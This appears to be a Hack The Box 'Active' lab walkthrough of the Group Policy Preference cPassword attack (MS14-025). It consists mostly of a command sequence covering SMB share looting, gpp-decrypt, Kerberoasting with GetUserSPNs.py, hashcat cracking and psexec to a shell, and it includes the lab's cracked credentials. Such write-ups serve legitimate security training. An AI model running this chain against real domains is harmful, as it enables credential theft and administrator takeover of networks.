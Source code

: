 ## Group Policy Preference Attack AKA MS14-025

GPP allows admin to create policy using embedded credentials.
These credentials were encrypted and stored in cPassword file
it patched but, Still exist

## Walk Through - Active

#### Hack The Box - Active machine walkthrough

```sh

# do an nmap scan on the target
> nmap -T4 <ip address> -v
# inspect the output and in this activity smb was open

> smbclient -L ////<ip address>//
# this lists the smb shares

# login to a share anonymously
> smbclient -L ////<ip address>//<sharename>

# turn off prompt
> prompt off

# turn of recurse
> recurse on

# donwload all files to our system
> mget *

# locate Groups.xml files from downloaded files
# open the xml file and enumerate sensitive information.
# you wil get domain and credentials.

# password will be encrypted, so we have to decrypt the password
> gpp-decrypt <encrypted password>
# you will get decrypted password using this tool

> GetUserSPNs.py < <domain>/<username>:<password>: active.htb/svc_tgs:GPPstillStandingStrong2k18> -dc-ip <victim-ip> -request 
# you will get a ticket issues by tgs server

# decrypt the hash using hashcat in windows and get the password of administrator

> hashcat64.exe -m 13100 <hashfile.txt> <wordlist> -O

Administrator // Ticketmaster1968

# now use this cracked credential in psexec to get a shell.

> psexec.py < <domain>/<username>:<Password>@<ip address>: active.htb/Administrator:Ticketmaster1968@10.10.10.100>

# Ta Da !! root shell spwnd

> whoami
> hostname

```